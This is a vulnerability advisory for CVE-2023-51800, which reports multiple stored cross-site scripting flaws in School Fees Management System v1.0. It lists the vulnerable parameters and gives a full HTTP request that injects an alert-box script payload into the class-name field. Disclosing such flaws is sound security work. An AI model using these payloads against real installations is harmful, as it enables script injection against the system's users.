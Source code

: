 # CVE-2023-51800
# School Fees Management System v1.0 - Multiple cross-site scripting (XSS) vulnerabilities

**Description**: Multiple cross-site scripting (XSS) vulnerabilities in School Fees Management System v1.0.  

**Vulnerable Product Version**: School Fees Management System v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 10/12/2023  
**CVE**: CVE-2023-51800  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2023-51800  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2023-51800  
**Tenable Link**: https://www.tenable.com/cve/CVE-2023-51800  
**Tested on**: Windows   
### Steps to reproduce:  
To exploit the vulnerability, an authenticated user with the requisite permissions needs to navigate to any of the affected pages and inject a malicious payload into one of the susceptible fields.  
**Affected Components**: 
> main_settings - phone, address, bank, acc_name, acc_number parameters,  
> new_class - cname parameter,  
> add_new_parent - name, email parameters,  
> new_term - tname parameter,  
> edit_student - name parameter  
### Request:  
```
Request:
POST /ci_fms/admin/action/new_class HTTP/1.1
Host: 192.168.68.148
Content-Length: 273
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.68.148
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbJT9XS9eFLU53MR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.68.148/ci_fms/admin/management/class
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ci_session=gdoj5tr7rsf7ci5o9rpr0rh5eni2r6an
Connection: close

------WebKitFormBoundaryAbJT9XS9eFLU53MR
Content-Disposition: form-data; name="cname"

<script>alert(document.domain)</script>
------WebKitFormBoundaryAbJT9XS9eFLU53MR
Content-Disposition: form-data; name="cfees"

12,000
------WebKitFormBoundaryAbJT9XS9eFLU53MR--
```
Discoverer(s)/Credits:  
Geraldo Alcântara
